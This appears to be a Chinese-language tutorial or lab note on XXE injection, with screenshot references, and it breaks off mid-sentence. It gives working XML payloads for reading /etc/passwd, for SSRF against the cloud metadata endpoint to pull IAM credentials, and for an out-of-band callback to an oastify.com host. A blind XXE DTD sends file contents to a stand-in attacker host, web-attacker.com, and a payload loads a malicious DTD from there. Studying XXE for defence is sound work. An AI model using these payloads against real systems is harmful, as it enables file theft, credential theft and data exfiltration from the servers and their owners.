 参数实体可以理解为DTD内部的局部变量.
```xml
<!ENTITY % 实体名称 "实体的值">
``` 
在某些时候,无法在xml数据结构中使用实体,这时候可以使用参数实体来触发外部实体解析.   
![](2022-11-01-11-31-45.png)  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://je1ulpppm7ftdo6vmgcv1lkg57bxzm.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
### 外部实体注入
XXE的原理也是因为DTD外部实体的特性导致可以文件读取,SSRF,RCE等.  
在不同的语言中,URI支持的外部实体协议有所不同.  
![](2022-11-01-10-38-42.png)  
在php中,某些协议需要特定的扩展支持.  
![](2022-11-01-10-39-52.png)  
同时在php中对xml数据支持使用的是libxml库,而在2.9.1版本之后已经默认不解析外部实体.
## Expolit
### File Read
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
![](2022-11-01-10-59-54.png)
### SSRF
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
![](2022-11-01-11-02-37.png)
### Port Scan
方式与SSRF相同,根据响应来判断IP是否存活,端口是否开放.
### RCE
需要php安装expect扩展.
### DDOS
## Blind XXE
常规XXE中可以直接得到XML解析的结果,而Blind XXE即响应中没有相应的结果,无法判断执行情况.
### Data out-of-band
数据带外通道可以在没有回显的情况下通过其它方式将解析结果显示出来.
1. 首先在恶意服务器上托管一个DTD文件
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```  
2. 插入如下payload加载该外部DTD文件
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
当xml解析时  